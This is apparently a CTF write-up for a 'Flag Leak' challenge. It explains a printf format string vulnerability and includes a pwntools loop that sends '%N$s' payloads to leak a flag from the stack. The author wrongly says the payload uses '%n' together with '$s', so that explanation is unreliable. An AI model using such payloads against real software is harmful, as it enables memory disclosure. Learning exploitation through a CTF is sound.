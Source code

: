 # Flag Leak

Lets take a look and see what we got, first grab the two files and lets look at the vuln.c per usual.

First thing we see is a readflag() function that is opening the flag.txt file into the buf variable which is sent to it as part of the function call.

So this is intresting as it means we'll have the flag on the stack, and based on the challenge name we're gonna want to leak it. So with that in min the next things we should notice is that scanf is used to pull in a string and then printf just prints it without specifing the output. This is vulnerable to something called format string attack. (https://owasp.org/www-community/attacks/Format_string_attack)

So let's give it a shot, if you read the OWASP page you'll see that with printf we can specify the format, we're going to use that with the '%n' which as stated in Table 2 on the OWASP page writes the number (n) of characters to a pointer and then we're going to add '$s' to tell it to treat it as a string so we can read the data. Let's test it real quick.

So we see a few different things coming up based on the number we put in. So lets write a quick loop to see if we can find flag.

'''python
from pwn import *

for i in range(100):
  try:
    io = process('./vuln')
    io.recvuntil(b">> ")
    print(i)
    io.sendline('%{}$s'.format(i).encode())
    io.recvline()
    leaked = io.recvline()
    if b"{" in leaked:
      print("Flag:", leaked)
      break
    else:
      print(leaked)
    io.close()
  except EOFError:
    pass
'''

So with this we see the flag is leaked at position 24; however the first part of the flag is cut off, this shouldn't matter because we know what that should be, let's try sending this to actual challenge. As you see it still cut off the first four characters, but we know what those are so no worries!
